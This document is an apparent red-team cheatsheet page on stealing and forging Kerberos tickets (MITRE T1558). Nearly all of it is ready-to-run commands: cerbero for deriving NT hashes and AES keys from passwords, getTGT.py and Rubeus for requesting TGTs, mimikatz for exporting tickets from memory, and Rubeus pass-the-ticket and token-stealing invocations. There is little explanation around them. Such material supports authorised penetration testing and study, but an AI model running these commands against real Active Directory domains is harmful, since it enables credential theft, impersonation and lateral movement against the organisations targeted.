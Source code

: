 ```yaml
---
layout: post
title: credentials / krb
category: 04-credentials
parent: cheatsheets
modified_date: 2023-06-09
permalink: /creds/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
1. [prereq](#prereq)
2. [get-nthash](#get-nthash)
3. [get-tgt](#get-tgt)
4. [ccache-convert](#ccache-convert)
5. [krb-export](#krb-export)
6. [krb-ptt](#krb-ptt)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**
<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var mm = ["https://api.github.com/repos/skelsec/pypykatz","https://api.github.com/repos/fortra/impacket"]; for (rep in mm) {$.ajax({type: "GET", url: mm[rep], dataType: "json", success: function(result) {$("#mm_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

**Which OS? What Creds?**
![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

##  2. <a name='get-nthash'></a>cleartext-2-nthash
```
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

##  3. <a name='get-tgt'></a>get-tgt
```
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_dc_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_computer_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip

cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

##  4. <a name='ccache-convert'></a>ccache-convert

* Convert linux to windows krb ticket :
```
ticketConverter.py $ztarg_user_name.ccache $ztarg_user_name.krb
cerbero convert -i $ztarg_user_name.ccache -o $ztarg_user_name.krb
```

##  5. <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

##  6. <a name='krb-ptt'></a>krb-ptt
```bash
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /createnetonly:C:\Windows\System32\cmd.exe
# linux
export KRB5CCNAME="$PWD/$ztarg_user_name.krb" 
```


